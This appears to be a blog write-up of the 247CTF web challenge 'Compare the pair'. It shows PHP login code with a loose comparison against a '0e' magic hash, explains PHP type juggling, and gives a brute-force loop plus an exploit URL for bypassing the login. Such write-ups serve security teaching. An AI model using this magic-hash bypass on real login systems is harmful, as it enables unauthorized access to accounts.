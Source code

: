 ```yaml
---
title: "Compare the pair 247CTF [ WEB ]"
date: 2022-02-27T18:33:12-05:00
draft: false
---
```


## __Description__

Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?

## __Solution__

When opening the challenge link we find a code which is going to be vulnerable because of how PHP compares values.

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

PHP has a feature called `type juggling` or `type coercion`. This means that during the comparison of variables of different types, PHP will first convert them to a common, comparable type. Let's see the relevance of this in our code.

Note that the variable `password_hash` starts with 0e and everything else is numbers (php magic hashes) so it is considered as a float. 

```php
$password_hash = "0e902564435691274142490923013038";
```

If we continue reading the code, we will notice that a loose comparison is being made:

```php
isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash
```

Let's see what this type of comparison is about according to https://techgeekgalaxy.com/.

```
In PHP, variables of different data types can be compared using the loose comparison operator which is two equal signs (==). If two operands of different types are compared using loose comparison then there is an attempt to convert one or both of the operands and then compare them. The result of the conditional after conversion of an operand can sometimes lead to bugs or security exploits.
```

Once we have understood what it is all about, let's move on to the exploitation phase. The goal is quite simple, find a string that when mixed with the salt creates an MD5 hash starting with 0e and all other digits.

```php
<?php
$salt = "f789bbc328a3d1a3";
$x = 1;
while (True){
    if (md5($salt . $x) == 0){
        echo $x;
        $x++;
    } else{
        $x++;
    }
}
?>
```

The only thing missing would be to enter and pass the output to the password parameter.

```
https://76df5ddee940a4a1.247ctf.com/?password=<Output>
```

Thanks to Maiky for helping me solve the challenge, link to her [blog](https://maikypedia.gitlab.io/posts/).
